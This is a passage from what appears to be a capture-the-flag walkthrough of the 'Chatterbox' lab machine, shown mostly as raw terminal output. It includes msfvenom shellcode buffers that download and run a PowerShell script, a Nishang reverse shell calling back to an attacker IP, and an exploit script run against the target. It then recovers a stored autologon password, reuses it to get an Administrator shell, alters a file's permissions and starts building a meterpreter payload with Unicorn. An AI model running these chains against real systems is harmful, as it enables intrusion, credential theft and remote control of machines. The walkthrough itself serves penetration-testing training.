buf += "\x52\x39\x6c\x78\x30\x4b\x42\x59\x33\x43\x53\x4a\x71"
buf += "\x35\x42\x51\x42\x59\x50\x57\x6e\x72\x53\x47\x70\x6d"
buf += "\x71\x31\x62\x53\x51\x32\x50\x36\x6d\x62\x30\x46\x72"
buf += "\x46\x72\x4a\x74\x30\x43\x38\x6e\x53\x71\x53\x51\x34"
buf += "\x33\x35\x31\x39\x61\x39\x61\x66\x61\x58\x4f\x61\x6e"
buf += "\x54\x61\x62\x61\x46\x4f\x58\x30\x42\x50\x53\x70\x48"
buf += "\x6e\x65\x61\x33\x73\x34\x42\x31\x70\x69\x32\x4c\x50"
buf += "\x49\x50\x44\x32\x37\x64\x38\x6e\x65\x4c\x6f\x30\x6b"
buf += "\x4f\x55\x6e\x6b\x50\x6f\x70\x4e\x42\x45\x71\x31\x32"
buf += "\x42\x71\x33\x51\x67\x72\x32\x61\x34\x6c\x76\x52\x35"
buf += "\x71\x45\x42\x43\x42\x48\x44\x38\x4e\x6e\x70\x44\x42"
buf += "\x50\x73\x49\x4d\x61\x31\x47\x30\x4a\x30\x66\x6c\x77"
buf += "\x4f\x78\x30\x4f\x62\x36\x6e\x69\x72\x50\x6e\x72\x4e"
buf += "\x4b\x6d\x68\x70\x78\x70\x4f\x6e\x63\x6f\x48\x6e\x4f"
buf += "\x71\x47\x6e\x69\x51\x51\x70\x66\x6f\x49\x70\x4d\x70"
buf += "\x35\x4e\x57\x34\x31\x52\x34\x4c\x6f\x51\x46\x70\x44"
buf += "\x6d\x64\x4e\x6e\x30\x7a\x6e\x61\x6e\x59\x51\x52\x30"
buf += "\x70\x50\x31\x6e\x50\x50\x71\x4f\x62\x4c\x74\x50\x31"
buf += "\x4f\x64\x72\x4e\x4e\x4f\x52\x4d\x72\x35\x50\x46\x4c"
buf += "\x72\x61\x61\x6e\x4b\x34\x36\x30\x33\x4e\x4f\x53\x34"
buf += "\x50\x47\x61\x38\x42\x31\x6c\x73\x32\x33\x62\x50\x64"
buf += "\x37\x30\x4c\x30\x68\x30\x53\x6d\x66\x42\x45\x4e\x55"
buf += "\x72\x4b\x51\x4a\x50\x4d\x74\x34\x71\x36\x51\x5a\x42"
buf += "\x37\x4d\x61\x70\x36\x71\x34\x50\x35\x4e\x64\x4d\x69"
buf += "\x50\x48\x61\x4a\x6c\x6f\x6e\x53\x63\x36\x6e\x79\x4e"
buf += "\x6a\x6e\x58\x32\x44\x51\x54\x32\x47\x42\x48\x4e\x63"
buf += "\x4c\x76\x51\x69\x6c\x78\x6f\x73\x30\x4f\x30\x6b\x50"
buf += "\x4f\x4c\x6f\x6f\x64\x4d\x66\x52\x4c\x50\x30\x73\x42"
buf += "\x72\x30\x51\x67\x32\x4b\x61\x31\x71\x31\x4d\x71\x4d"
buf += "\x6d\x6d\x6d\x6e\x47\x4d\x59\x6b\x79\x6d\x59\x6e\x4c"
buf += "\x61\x4b\x30\x49\x6e\x6f\x6c\x6e\x50\x43\x42\x4f\x30"
buf += "\x6d\x70\x70\x63\x42\x71\x55\x73\x43\x50\x73\x33\x39"
buf += "\x52\x4f\x42\x4e\x4c\x6e\x6d\x73\x62\x4f\x62\x4d\x50"
buf += "\x70\x44\x32\x62\x45\x52\x53\x70\x73\x71\x59\x50\x6f"
buf += "\x70\x6e\x6e\x6d\x32\x4f\x31\x54\x42\x45\x4f\x6d\x6c"
buf += "\x7a\x6c\x7a\x6d\x74\x32\x45\x72\x43\x62\x4f\x50\x6d"
buf += "\x54\x30\x71\x62\x71\x55\x72\x53\x62\x53\x6d\x59\x6b"
buf += "\x79\x6d\x59\x6c\x6e\x6f\x62\x62\x45\x63\x31\x51\x54"
buf += "\x4e\x74\x30\x6f\x6e\x65\x52\x4e\x62\x44\x6d\x58\x4f"
buf += "\x39\x6b\x79\x4b\x79\x4b\x72\x41\x41"
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/sample.shell')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 680 (iteration=0)
x86/unicode_mixed chosen with final size 680
Payload size: 680 bytes
Final size of python file: 3260 bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x79\x6c\x6a\x48\x65\x32"
buf += "\x59\x70\x79\x70\x79\x70\x4f\x70\x72\x69\x68\x65\x70"
buf += "\x31\x69\x30\x70\x64\x44\x4b\x42\x30\x4c\x70\x44\x4b"
buf += "\x51\x42\x4c\x4c\x44\x4b\x72\x32\x4c\x54\x62\x6b\x52"
buf += "\x52\x6c\x68\x6a\x6f\x44\x77\x4e\x6a\x4d\x56\x50\x31"
buf += "\x69\x6f\x34\x6c\x4f\x4c\x53\x31\x73\x4c\x79\x72\x6e"
buf += "\x4c\x4b\x70\x36\x61\x78\x4f\x6a\x6d\x6d\x31\x38\x47"
buf += "\x78\x62\x78\x72\x42\x32\x52\x37\x32\x6b\x50\x52\x6c"
buf += "\x50\x64\x4b\x50\x4a\x6d\x6c\x34\x4b\x50\x4c\x6b\x61"
buf += "\x74\x38\x67\x73\x6f\x58\x6b\x51\x66\x71\x32\x31\x32"
buf += "\x6b\x30\x59\x4f\x30\x7a\x61\x57\x63\x34\x4b\x50\x49"
buf += "\x6d\x48\x79\x53\x4d\x6a\x6e\x69\x72\x6b\x4c\x74\x32"
buf += "\x6b\x5a\x61\x79\x46\x6c\x71\x49\x6f\x76\x4c\x67\x51"
buf += "\x38\x4f\x4c\x4d\x69\x71\x49\x37\x6e\x58\x67\x70\x54"
buf += "\x35\x4c\x36\x4c\x43\x51\x6d\x68\x78\x6d\x6b\x61\x6d"
buf += "\x6b\x74\x62\x55\x59\x54\x52\x38\x42\x6b\x31\x48\x4c"
buf += "\x64\x39\x71\x59\x43\x72\x46\x72\x6b\x4a\x6c\x50\x4b"
buf += "\x34\x4b\x32\x38\x6d\x4c\x4b\x51\x46\x73\x44\x4b\x4a"
buf += "\x64\x64\x4b\x69\x71\x78\x50\x54\x49\x50\x44\x6f\x34"
buf += "\x4d\x54\x4f\x6b\x61\x4b\x53\x31\x42\x39\x4e\x7a\x30"
buf += "\x51\x39\x6f\x47\x70\x6f\x6f\x31\x4f\x51\x4a\x62\x6b"
buf += "\x5a\x72\x5a\x4b\x54\x4d\x31\x4d\x62\x4a\x7a\x61\x62"
buf += "\x6d\x33\x55\x75\x62\x79\x70\x59\x70\x59\x70\x52\x30"
buf += "\x52\x48\x6e\x51\x42\x6b\x72\x4f\x64\x47\x69\x6f\x47"
buf += "\x65\x57\x4b\x48\x70\x66\x55\x56\x42\x62\x36\x70\x68"
buf += "\x33\x76\x45\x45\x77\x4d\x63\x6d\x79\x6f\x5a\x35\x4f"
buf += "\x4c\x39\x76\x61\x6c\x59\x7a\x65\x30\x59\x6b\x69\x50"
buf += "\x32\x55\x6a\x65\x77\x4b\x31\x37\x6b\x63\x32\x52\x72"
buf += "\x4f\x71\x5a\x49\x70\x42\x33\x79\x6f\x49\x45\x34\x30"
buf += "\x50\x6f\x62\x57\x33\x35\x51\x62\x42\x53\x32\x48\x4f"
buf += "\x75\x72\x4c\x52\x4c\x6b\x70\x4b\x72\x61\x39\x51\x35"
buf += "\x50\x58\x6e\x48\x50\x4e\x70\x65\x32\x57\x6c\x6d\x50"
buf += "\x4f\x30\x62\x50\x6a\x33\x35\x30\x63\x72\x54\x4f\x30"
buf += "\x4e\x6e\x51\x55\x54\x34\x6c\x6e\x42\x57\x50\x65\x61"
buf += "\x52\x31\x33\x62\x4c\x50\x69\x70\x65\x50\x6e\x70\x74"
buf += "\x6c\x69\x6e\x4e\x70\x64\x52\x4f\x63\x47\x32\x4e\x72"
buf += "\x4c\x70\x6f\x6f\x71\x42\x44\x61\x43\x70\x74\x71\x62"
buf += "\x71\x59\x52\x4e\x32\x47\x4c\x68\x6d\x57\x4f\x78\x71"
buf += "\x64\x62\x54\x42\x50\x4c\x7a\x6e\x4f\x4c\x6f\x6e\x51"
buf += "\x30\x30\x4e\x4e\x6c\x71\x70\x30\x6c\x6e\x50\x31\x4e"
buf += "\x54\x4e\x4e\x4e\x51\x6c\x76\x4e\x4f\x33\x43\x33\x31"
buf += "\x72\x4d\x34\x30\x70\x6c\x72\x45\x6e\x4e\x44\x33\x52"
buf += "\x48\x51\x55\x50\x6c\x50\x6c\x4c\x67\x4d\x59\x6f\x32"
buf += "\x39\x70\x41\x41"
root@kali:~/chatterbox#
```

[`Invoke-PowerShellTcp.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

```sh
root@kali:~/chatterbox# tail Invoke-PowerShellTcp.ps1
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 9002
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# mkdir www
root@kali:~/chatterbox# cd www/
root@kali:~/chatterbox/www# mv ../Invoke-PowerShellTcp.ps1 sample.shell
root@kali:~/chatterbox/www# ls -lah
total 28K
drwxr-xr-x 2 root root 4.0K Jun 20 16:12 .
drwxr-xr-x 3 root root 4.0K Jun 20 16:12 ..
-rwxr-xr-x 1 root root 5.0K Jun 20 16:09 36025.py
-rw-r--r-- 1 root root 4.3K Jun 20 16:03 sample.shell
root@kali:~/chatterbox/www#
```

```sh
root@kali:~/chatterbox/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.74 - - [20/Jun/2018 16:13:17] "GET /sample.shell HTTP/1.1" 200 -
```

```sh
root@kali:~/chatterbox/www# python 36025.py
---->{P00F}!
root@kali:~/chatterbox/www#
```


```sh
root@kali:~/chatterbox# ncat -nlvp 9002
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9002
Ncat: Listening on 0.0.0.0:9002
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49175.
Windows PowerShell running as user Alfred on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
chatterbox\alfred
PS C:\Windows\system32> cd C:\Users\alfred
PS C:\Users\alfred> cd Desktop
PS C:\Users\alfred\Desktop> ls


    Directory: C:\Users\alfred\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        12/10/2017   6:50 PM         32 user.txt


PS C:\Users\alfred\Desktop> cat user.txt
72290246dfaedb1e3e3ac9d6fb306334
PS C:\Users\alfred\Desktop>
```

###### Privilege Escalation

```sh
PS C:\Users\alfred\Desktop> whoami /all

USER INFORMATION
----------------

User Name         SID
================= =============================================
chatterbox\alfred S-1-5-21-1218242403-4263168573-589647361-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\alfred\Desktop>
```

[`PowerUp.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)

```sh
root@kali:~/chatterbox/www# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
--2018-06-20 16:20:21--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.52.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.52.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: ‘PowerUp.ps1’

PowerUp.ps1                                        100%[================================================================================================================>] 586.50K  2.27MB/s    in 0.3s

2018-06-20 16:20:21 (2.27 MB/s) - ‘PowerUp.ps1’ saved [600580/600580]

root@kali:~/chatterbox/www#
```

```sh
root@kali:~/chatterbox/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.74 - - [20/Jun/2018 16:13:17] "GET /sample.shell HTTP/1.1" 200 -
10.10.10.74 - - [20/Jun/2018 16:23:09] "GET /PowerUp.ps1 HTTP/1.1" 200 -
```

```sh
PS C:\Users\alfred\Desktop> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/PowerUp.ps1')
PS C:\Users\alfred\Desktop>
```

```sh
PS C:\Users\alfred\Desktop> Invoke-AllChecks


DefaultDomainName    :
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files


PS C:\Users\alfred\Desktop> Get-ChildItem : Access to the path 'C:\ProgramData\VMware\VMware Tools\GuestPro
xyData\trusted' is denied.
At line:4516 char:34
+         $XMlFiles = Get-ChildItem <<<<  -Path $AllUsers -Recurse -Include 'Gr
oups.xml','Services.xml','Scheduledtasks.xml','DataSources.xml','Printers.xml',
'Drives.xml' -Force -ErrorAction SilentlyContinue
    + CategoryInfo          : PermissionDenied: (C:\ProgramData\...oxyData\tru
   sted:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.
   Commands.GetChildItemCommand

PS C:\Users\alfred\Desktop>
```

```sh
PS C:\Users\alfred\Desktop> net user

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest
The command completed successfully.

PS C:\Users\alfred\Desktop>
```

```sh
root@kali:~/chatterbox/www# cp sample.shell sample2.shell
root@kali:~/chatterbox/www# nano sample2.shell
root@kali:~/chatterbox/www# tail sample2.shell
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 9004
root@kali:~/chatterbox/www#
```

```sh
root@kali:~/chatterbox/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.74 - - [20/Jun/2018 16:13:17] "GET /sample.shell HTTP/1.1" 200 -
10.10.10.74 - - [20/Jun/2018 16:23:09] "GET /PowerUp.ps1 HTTP/1.1" 200 -
10.10.10.74 - - [20/Jun/2018 16:39:41] "GET /sample2.shell HTTP/1.1" 200 -
```

```sh
PS C:\Users\alfred\Desktop> $SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
PS C:\Users\alfred\Desktop> $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
PS C:\Users\alfred\Desktop> Start-Process -FilePath "powershell" -argumentList "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/sample2.shell')" -Credential $cred
PS C:\Users\alfred\Desktop>
```

```sh
root@kali:~/chatterbox/www# ncat -nlvp 9004
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9004
Ncat: Listening on 0.0.0.0:9004
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49178.
Windows PowerShell running as user Administrator on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\alfred\Desktop>whoami
chatterbox\administrator
PS C:\Users\alfred\Desktop> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
PS C:\Users\Administrator\Desktop>
```


###### Leveraging weak permission on root.txt

```sh
PS C:\Users\alfred\Desktop> whoami
chatterbox\alfred
PS C:\Users\alfred\Desktop> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        12/10/2017   6:50 PM         32 root.txt


PS C:\Users\Administrator\Desktop> type root.txt
PS C:\Users\Administrator\Desktop> Get-Content : Access to the path 'C:\Users\Administrator\Desktop\root.txt' is d
enied.
At line:1 char:5
+ type <<<<  root.txt
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Deskto
   p\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsof
   t.PowerShell.Commands.GetContentCommand


PS C:\Users\Administrator\Desktop>
PS C:\Users\Administrator\Desktop> cd ..\..\
PS C:\Users> Get-Acl administrator | Fl *


PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users
PSChildName             : administrator
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : NT AUTHORITY\SYSTEM Allow  FullControl
                          BUILTIN\Administrators Allow  FullControl
                          CHATTERBOX\Administrator Allow  FullControl
                          CHATTERBOX\Alfred Allow  FullControl
AuditToString           :
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator
Owner                   : NT AUTHORITY\SYSTEM
Group                   : NT AUTHORITY\SYSTEM
Access                  : {System.Security.AccessControl.FileSystemAccessRule,
                          System.Security.AccessControl.FileSystemAccessRule, S
                          ystem.Security.AccessControl.FileSystemAccessRule, Sy
                          stem.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;
                          FA;;;LA)(A;OICI;FA;;;S-1-5-21-1218242403-4263168573-5
                          89647361-1000)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True


PS C:\Users>
PS C:\Users> cd administrator
PS C:\Users\administrator> dir


    Directory: C:\Users\administrator


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d-r--        12/10/2017   6:08 PM            Contacts
d-r--        12/10/2017   6:50 PM            Desktop
d-r--        12/10/2017   6:08 PM            Documents
d-r--        12/10/2017   6:08 PM            Downloads
d-r--        12/10/2017   6:08 PM            Favorites
d-r--        12/10/2017   6:08 PM            Links
d-r--        12/10/2017   6:08 PM            Music
d-r--        12/10/2017   6:08 PM            Pictures
d-r--        12/10/2017   6:08 PM            Saved Games
d-r--        12/10/2017   6:08 PM            Searches
d-r--        12/10/2017   6:08 PM            Videos


PS C:\Users\administrator> cd Desktop
PS C:\Users\administrator\Desktop> dir


    Directory: C:\Users\administrator\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        12/10/2017   6:50 PM         32 root.txt


PS C:\Users\administrator\Desktop> Get-Acl root.txt | Fl *


PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop\root.txt
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop
PSChildName             : root.txt
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : CHATTERBOX\Administrator Allow  FullControl
AuditToString           :
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop\root.txt
Owner                   : CHATTERBOX\Alfred
Group                   : CHATTERBOX\None
Access                  : {System.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:S-1-5-21-1218242403-4263168573-589647361-1000G:S-1-
                          5-21-1218242403-4263168573-589647361-513D:P(A;;FA;;;L
                          A)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True


PS C:\Users\administrator\Desktop>
PS C:\Users\administrator\Desktop> cacls root.txt /t /e /p Alfred:F
processed file: C:\Users\administrator\Desktop\root.txt
PS C:\Users\administrator\Desktop> Get-Content root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
PS C:\Users\administrator\Desktop>
PS C:\Users\administrator\Desktop> Get-Acl root.txt | Fl *


PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop\root.txt
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop
PSChildName             : root.txt
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : CHATTERBOX\Administrator Allow  FullControl
                          CHATTERBOX\Alfred Allow  FullControl
AuditToString           :
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\admini
                          strator\Desktop\root.txt
Owner                   : CHATTERBOX\Alfred
Group                   : CHATTERBOX\None
Access                  : {System.Security.AccessControl.FileSystemAccessRule,
                          System.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:S-1-5-21-1218242403-4263168573-589647361-1000G:S-1-
                          5-21-1218242403-4263168573-589647361-513D:P(A;;FA;;;L
                          A)(A;;FA;;;S-1-5-21-1218242403-4263168573-589647361-1
                          000)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True


PS C:\Users\administrator\Desktop>
```

[`cacls`](https://ss64.com/nt/cacls.html)


###### Using Metasploit

```sh
root@kali:~/chatterbox# git clone https://github.com/trustedsec/unicorn.git
Cloning into 'unicorn'...
remote: Counting objects: 340, done.
remote: Total 340 (delta 0), reused 0 (delta 0), pack-reused 340
Receiving objects: 100% (340/340), 163.94 KiB | 987.00 KiB/s, done.
Resolving deltas: 100% (215/215), done.
root@kali:~/chatterbox# cd unicorn/
root@kali:~/chatterbox/unicorn# python unicorn.py

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


-------------------- Magic Unicorn Attack Vector v3.1 -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help

root@kali:~/chatterbox/unicorn# python unicorn.py windows/meterpreter/reverse_https 10.10.14.16 9001
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


